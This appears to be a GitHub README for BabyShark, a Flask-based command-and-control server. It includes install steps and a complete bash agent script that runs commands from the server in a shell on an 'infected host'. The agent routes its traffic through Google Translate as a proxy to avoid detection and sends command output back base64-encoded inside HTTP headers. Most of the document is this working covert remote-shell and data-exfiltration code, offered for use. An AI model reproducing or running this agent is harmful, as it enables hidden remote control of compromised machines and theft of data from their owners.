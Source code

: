 ![babyshark](https://repository-images.githubusercontent.com/268794697/4b8cb480-a584-11ea-9dd2-59cd3993dade)

# INTRO
<p style='text-align: justify;'>
This is a basic C2 generic server written in Python and Flask.

This code has based ideia to [GTRS](https://github.com/mthbernardes/GTRS), which uses [Google Translator](https://translate.google.com) as a proxy for sending commands to the infected host. The BabyShark project aims to centralize reverse connections with agents, creating a way to centralize several types of connections in one place. 

BabyShark does not generate infection agents, but it does offer a template to connect to it.
</p>

# INSTALL

```
git clone https://github.com/danilovazb/BabyShark/
cd BabyShark
mkdir database
sqlite3 database/c2.db < schema.sql
```

# AGENTS MODEL

### GTRS - https://github.com/mthbernardes/GTRS

This client example from GTRS for connect to BabyShark:

```bash
#!/bin/bash

if [[ $# < 2 ]];then
    echo -e "Error\nExecute: $0 www.c2server.com secretkey-provided-by-the-server\n"
    exit
fi

running=true
secretkey="b4bysh4rk"
user_agent="User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36"
data="Content-Hype: "
c2server="http://babyshark/momyshark?key=$secretkey"
result=""
input="/tmp/input"
output="/tmp/output"

function namedpipe(){
  rm "$input" "$output"
  mkfifo "$input"
  tail -f "$input" | /bin/bash 2>&1 > $output &
}

function getfirsturl(){
  url="https://translate.google.com/translate?&anno=2&u=$c2server"
  first=$(curl --silent "$url" -H "$user_agent" | xmllint --html --xpath '//iframe/@src' - 2>/dev/null | cut -d "=" -f2- | tr -d '"' | sed 's/amp;//g' )
} 

function getsecondurl(){
  second=$(curl --silent -L "$first" -H "$user_agent"  | xmllint --html --xpath '//a/@href' - 2>/dev/null | cut -d "=" -f2- | tr -d '"' | sed 's/amp;//g')
}

function getcommand(){
  if [[ "$result" ]];then  
    command=$(curl --silent $second -H "$result" )
  else
    command=$(curl --silent $second -H "$user_agent" )

    command1=$(echo "$command" | xmllint --html --xpath '//span[@class="google-src-text"]/text()' - 2>/dev/null)
    command2=$(echo "$command" | xmllint --html --xpath '/html/body/main/div/div/div/div/ul/li/span/text()' - 2>/dev/null )
    if [[ "$command1" ]];then
      command="$command1"
    else
      command="$command2"
    fi
  fi
}

function talktotranslate(){
  getfirsturl
  getsecondurl
  getcommand
}

function main(){
  result=""
  sleep 10
  talktotranslate
  if [[ "$command" ]];then
    if [[ "$command" == "exit" ]];then
      running=false 
    fi
    echo $command
    echo -n > $output
    idcommand=$(echo $command | cut -d '#' -f2)
    echo "$command" > "$input"
    sleep 2
    outputb64=$(cat $output | tr -d '\000'  | base64 | tr -d '\n'  2>/dev/null)
    if [[ "$outputb64" ]];then
      result="$user_agent | $outputb64 | $idcommand "
      talktotranslate
    fi
  fi
}

namedpipe
while "$running";do
  main
done

```
___


# NEXT STEPS



- SSH Reverse
- DNS
- DOH
- HTTPS
- HTTP3
- ICMP
- QUIC
